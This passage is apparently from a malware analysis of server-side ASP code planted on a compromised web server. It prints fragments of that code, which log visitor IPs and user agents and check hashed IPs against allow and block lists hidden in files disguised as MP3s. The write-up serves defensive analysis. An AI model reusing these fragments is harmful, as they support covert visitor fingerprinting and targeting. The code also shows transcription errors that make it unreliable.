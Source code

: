 

strlog = date() & “” & formatdatetime(now(), 4)
r = writeline(strlogpath, strlog)
r = writeline(strlogpath, stripaddr)
r = writeline(strlogpath, strua)
r = writeline(strlogpath, strcondition)
r = writeline(strlogpath, strinfo)
r = writeline(strlogpath, strosbit)



The server-side ASP code will check whether the IP address is part of an allow-list or block-list by checking for the presence of the IP in two server-side files masquerading as MP3 files. The IP address is stored in the format of an MD5 hash, contained within the server-side code as a function to create a MD5 hash. The code is looking for these files in the WWW root of the compromised server based on the variable strWorkDir.
Using an ‘allow-list’ is a possible indication that it contained the list of their pre-determined targets.



strWorkDir = “C:\”:strLogPath=strWorKdir&”lole3D_48_02_05.mp3″:StrWhiteFile=strWorkDir&”wole3D_48_02_05.mp3 “:strBlAcKFile=strWorkDir&”bole3D_48_02_05.mp3”:stripAddr=GeTStrIpAddress():strMD5IpAddr=MD5(strIpAddr):strUA=Request.serveRVariables(“HTTP_USER_AGENT “)



IP allow-list / blocklist checking
For MD5 hash generation, the system appears to be using a non-standard form of hashing for the IP addresses. In most cases, the built in Microsoft cryptographic service provider would be used to generate an MD5. In this case, however, the actor chose to use a custom method instead.
The IP address is retrieved and hashed using this method.



stripaddr=getstripaddress()
strmd5ipaddr=md5(stripaddr)



The following function (ipopk) is set to read from a file that stores hashed IPs and will be used later in a conditional block statement. The code below will open and read a file, if there is no data the flag for ipok will result in 0, if there is data then the resulting value will be 1.



function ipok(hashfile, stripaddr)
on error resume next
dim fso, fs, linedata
set fso = server.createobject(“scripting.filesystemobject”)
set fs = fso.opentextfile(hashfile, 1, true)
ipok = 0
do until fs.atendofstream
linedata = lcase(fs.readline)
if len(linedata) > 0 and instr(stripaddr, linedata) then ipok = 1
exit do
end if loop
fs.close
set fs = nothing
end function
